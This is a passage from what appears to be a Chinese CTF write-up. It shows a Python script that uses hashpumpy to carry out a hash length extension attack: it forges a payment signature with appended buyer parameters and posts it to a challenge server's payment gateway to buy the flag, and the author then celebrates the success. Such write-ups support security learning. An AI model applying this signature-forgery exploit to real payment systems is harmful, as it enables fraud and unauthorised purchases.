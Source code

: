 ```python
    
i = 31
add_data = '&good_id=42&buyer_id=' + str(i)
# i = 31 who have money to buy flag
hash = hashpumpy.hashpump(signature,original,add_data,key_length)
url = 'http://118.89.198.146:50006/paymentGatewayV2/cid-1145141919/810893/check.jsp?signature=' + hash[0]
# message = urllib.quote(urllib.unquote(hash[1]))
message = hash[1]

# proxy={'http': '127.0.0.1:8080'}  为requests请求设置代理
# 如果不确定 requests 发的具体数据，用bp抓包看看(剑涛老哥教的)

#res = requests.post(url=url,headers=headers,data=message,proxies=proxy)
res = requests.post(url=url,headers=headers,data=message)

print res.content
if 'alert alert-success' in res.content:
    print "-------------------------Success!------------------------"
```

![1542281916199](C:\Users\LegnaVI\AppData\Roaming\Typora\typora-user-images\1542281916199.png)

到此，flag 已经买到了。当时候还没反应过来，想着再买一次，去看一下订单，flag 已经出来了。 



**Raccoon 的纳新题就全做完了，也顺利进入了 ROIS 的考核队列。**

**小目标成功实现，也对得起这几天疯狂做web题了。**

**扬帆起航！**